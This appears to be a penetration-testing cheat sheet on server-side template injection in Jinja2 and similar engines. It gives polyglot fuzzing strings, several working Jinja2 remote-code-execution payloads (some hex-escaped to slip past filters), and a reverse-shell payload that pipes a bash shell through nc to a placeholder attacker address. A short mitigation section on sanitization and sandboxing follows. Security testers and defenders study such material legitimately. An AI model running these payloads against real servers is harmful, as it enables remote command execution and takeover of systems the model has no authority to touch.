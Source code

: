 # SSTI

Server-side template injection (SSTI) happens when user input is placed unsafely into server templates, allowing code execution on the server. This can occur in web applications that use technologies like Jinja2, Twig, or FreeMaker to generate dynamic HTML. Systems that might be at risk include wiki-pages, reviews, marketing apps, and CMS systems. Some template engines use methods like sandboxes or whitelisting to guard against SSTI.



## Detect SSTI vulnerability

To identify SSTI vulnerabilities, use a **Polyglot payload** composed of special characters commonly used in template expressions to fuzz the template.

```none
${{<%[%'"}}%\.
${{<%[%'\"}}%\\. 
```

If there's a vulnerability, the server might return an error message or raise an exception. This can help pinpoint the vulnerability and the template engine being used. Here's a basic checklist:

* Find where template injection occurs
* Identify the template engine and confirm the vulnerability
* Refer to the manuals for that specific template engine
* Exploit the vulnerability



## SSIT to RCE

### Jinja2

```bash
# payloads to RCE
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

{% code title="RevShell" overflow="wrap" %}
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ATT_IP ATT_PORT >/tmp/f').read() }}
```
{% endcode %}

{% embed url="https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/" %}



## Mitigation

To effectively remediate SSTI vulnerabilities, the approach depends on the specific template engine in use. Here are two common strategies:

* **Sanitization**: Ensure user inputs are sanitized before being processed by templates to mitigate the risk of malicious input.
* **Sandboxing**: If risky characters are necessary for business purposes, implementing a sandbox within a secure environment is advisable.

\
